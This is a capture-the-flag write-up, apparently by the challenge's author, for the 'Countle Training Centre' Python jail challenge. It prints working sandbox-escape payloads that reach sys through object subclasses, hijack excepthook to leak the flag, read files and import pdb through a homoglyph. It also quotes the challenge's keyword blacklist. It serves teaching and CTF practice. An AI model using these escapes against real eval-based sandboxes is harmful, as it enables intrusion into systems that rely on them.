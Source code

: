 # [MISC] Countle Training Centre

## Description
The Countle World Championships is coming! Time to step up your game and start training! It's just a measly 1,000,000 puzzles a day, anyone can do it.

[Distrib@greyctf25](https://github.com/NUSGreyhats/greyctf25-challs-public/tree/main/misc/countle_training_centre/distrib)

### Flag

`grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}`

## (Intended*) Solution Explantation

The intended solution is unfortunately not optimal, but I will do my best to explain it. Perhaps it might be useful for other pyjails in future.

### Solution

```python
(s:=().__class__.__base__.__subclasses__()[120]().load_module('sys'),s.__setattr__('excepthook',lambda *a:s.stdout.write(a[2].tb_frame.f_globals.__str__())),a)
```

### Part 0

```python
if (not match(r"[0-9+\-*/()]+", expr)):
    # incorrect format
elif (len(expr) > 160):
    # incorrect format
```

Firstly, we want to get past the regex, which is waaaaay to simple. We can simply wrap our solution with `()`. This also allows use to use the walrus operator to assign variables and reuse them where necessary.

### Part 1

Assuming the blacklist is treated at face value (foreshadow lol), we need to bypass that. There are many ways to do so in python.

Pre-python3.12, my go-to class to use is `<class 'warnings.catch_warnings'>`, but in python3.12 this was removed from the list of builtin classes (when running a script). Instead, we can use other classes like `<class '_frozen_importlib.BuiltinImporter'>`, `<class 'collections.abc.Sized'>` and more.

```python
s:=().__class__.__base__.__subclasses__()[120]().load_module('sys')
```

For this solution, we used `<class '_frozen_importlib.BuiltinImporter'>` to load/import the `sys` module, which is assigned to the variable `s`.

### Part 2

```python
s.__setattr__('excepthook',lambda *a:s.stdout.write(a[2].tb_frame.f_globals.__str__()))
```

Using the `__setattr__` function, we change the excepthook to a custom one. The excepthook is used to catch any uncaught exception. Usually, it will print out the exception information then exit the program. In this case, we want to use it to access the trace stack, which is the second param of the hook function.

```python
a[2].tb_frame.f_globals.__str__()
```

Ordinarily, we would be within (or above) the `eval` trace stack, which would not contain the flag since `eval` is runned with `{'FLAG':"no flag for you", "__builtins__": None}`. However, the `excepthook` is called outside of the `eval` and therefore has the flag variable.

We can get the current frame `.tb_frame` then obtain the global variables using `.f_globals`.

Lastly, since `print` is banned by the blacklist, we can substitute with `s.stdout.write`.

### Part 3

```python
a
```

Actually you still need to trigger an uncaught error, which is pretty simple. Here, a `NameError` is triggered since variable `a` is not defined.

```
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader 
object at 0x104ee0470>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 
'/Users/ngkayhian/Documents/ctf-writeups/Grey Cat The Flag 2025/Countle Training Centre/distrib/server.py', '__cached__': 
None, 'match': <function match at 0x104f0ab60>, 'exit': <built-in function exit>, 'sleep': <built-in function sleep>, 
'generateSolvablePuzzle': <function generateSolvablePuzzle at 0x104f9dda0>, 'format': <function format at 0x104f09620>, 
'banner': <function banner at 0x104f9d1c0>, 'goal': <function goal at 0x104fccd60>, 'menu': <function menu at 0x104fcce00>, 
'help': <function help at 0x104fccea0>, 'BLACKLIST': ['breakpoint', 'builtinscat', 'compile', 'dict', 'eval', 'exec', 
'getframe', 'help', 'import', 'input', 'inspect', 'open', 'os', 'sh', 'signalsubprocess', 'system'], 'blacklist': <function 
blacklist at 0x104fccf40>, 'checkAnswer': <function checkAnswer at 0x104fccfe0>, 'challenge': <function challenge at 
0x104fcd080>, 'FLAG': 'grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}', 'choice': 'S'}
```

### Oopsie

At this point, an astute reader might notice two weird items in the `BLACKLIST` - namely `'builtinscat'` and `'signalsubprocess'`.

Yes, I made a newbie coding error. And I only noticed it after reading a [writeup](https://0necloud.github.io/CTF-Writeups/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/#:~:text=Source%20Code%20Analysis) where the player found this "vulnerability".

```python
BLACKLIST = ['breakpoint', 
             'builtins' 'cat',        # missing comma
             'compile', 'dict', 'eval', 'exec', 'getframe',
             'help', 'import', 'input', 'inspect', 'open', 'os', 'sh', 
             'signal' 'subprocess',   # missing comma
             'system']
```

When defining the `BLACKLIST`, I was adding new blacklist words up until a few days before the qualifiers. On my very last addition, I added `'builtins'` and `'signal'`, but forgot to put the commas in. And evidently I didn't test the service.

What does this mean for the challenge? Since the `eval` is running with `"__builtins__": None`, it is still not as trivial as just accessing the python builtins, but it definitely opened up some avenues.

## Alternative Solutions (without explanation)

```python
0+(a:=().__class__.__base__.__subclasses__()[151].__len__.__globals__["__builtins__"],a["print"](a["op""en"]("/app/run").read()))

# by Leo (https://discord.com/channels/969232688521281606/1378292097685262377/1378715661890621501)
```

```python
().__class__.__base__.__subclasses__()[158]().__call__.__buil𝘵ins__[_:="__impor\x74__"]("pdb").set_trace()

# by hawke (https://discord.com/channels/969232688521281606/1378292097685262377/1378715771873529898)
```

## Thoughts

This was my first pyjail, and it is definitely quite crude. Half way through the quals, I realised that I accidentally left a debug code in the service and distribution. Thankfully due to my poor coding practice of using `_` as variable names, the debug code was rendered useless (otherwise it would reveal the flag upon solving 3 countle puzzles, LOL!).

Moving forward, I will definitely try to learn from my mistakes and explore more of python intricacies. Looking forward to writing another interesting pyjail.